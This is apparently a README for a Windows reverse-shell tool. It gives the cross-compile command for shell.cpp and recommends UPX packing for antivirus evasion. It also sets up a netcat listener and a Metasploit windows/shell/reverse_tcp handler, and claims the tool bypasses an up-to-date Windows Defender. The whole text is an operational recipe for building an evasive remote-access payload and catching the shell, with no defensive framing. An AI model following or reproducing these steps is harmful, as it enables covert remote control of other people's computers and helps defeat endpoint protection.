 # Compile it
````
i686-w64-mingw32-g++ shell.cpp -o shell.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
````
## After Compile the exe file then use UPX (https://upx.github.io/) for (AV) Evasion


# Start the netcat Listener
````
 nc -lvnp <port number>
 ````
 
 # Metasploit Handler
 ````
  use exploit/multi/handler
  set PAYLOAD windows/shell/reverse_tcp
  set LHOST <Local IP>
  set LPORT <Local Port>
  exploit -j -z 
  ````
<a href="https://ibb.co/BK4wqJq"><img src="https://i.ibb.co/84zX6w6/Screenshot-from-2020-11-30-12-24-52.png" alt="Screenshot-from-2020-11-30-12-24-52" border="0"></a>

Tested on updated(30.11.2020) Windows 10 device with Windows Defender and Cloud Protection enabled.
